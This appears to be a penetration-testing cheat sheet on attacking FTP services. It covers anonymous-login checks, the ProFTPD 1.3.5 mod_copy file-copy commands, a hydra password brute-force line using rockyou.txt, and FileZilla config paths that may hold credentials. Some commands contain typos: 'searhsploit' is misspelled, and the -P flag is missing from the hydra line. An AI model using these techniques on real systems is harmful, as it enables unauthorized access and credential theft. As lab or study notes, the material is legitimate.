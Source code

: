 # Exploit FTP

Test Anonymous login
```sh
nc 10.10.10.10 21

ftp 10.10.10.10

220 Welcome to the administrator FTP service.
Name (10.10.17.124:root): anonymous
Password: <enter>
ftp>
```

## Searching for vulnerabilities
```sh
searhsploit proftpd 1.3.5
```

In this case we can see FTP is vulnerable to `mod_copy`
```sh
SITE CPFR /target/file
SITE CPTO /destination/file
```


## Brute Force 
| Switch | Description |
| ------ | ----------- |
| `-t 4` | Parellel connections |
| `-l username` | Username for login |
| `-P <dictionary path>` | Dictionary to use |
| `-vV` | Very verbose |

```sh
hydra -t 4 -l username /usr/share/wordlists/rockyou.txt -vV 10.10.10.10 ftp
```
## Filezilla
Sometimes credentials can be found:
```sh
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\xampp\FileZilla Server\FileZilla Server.xml
```

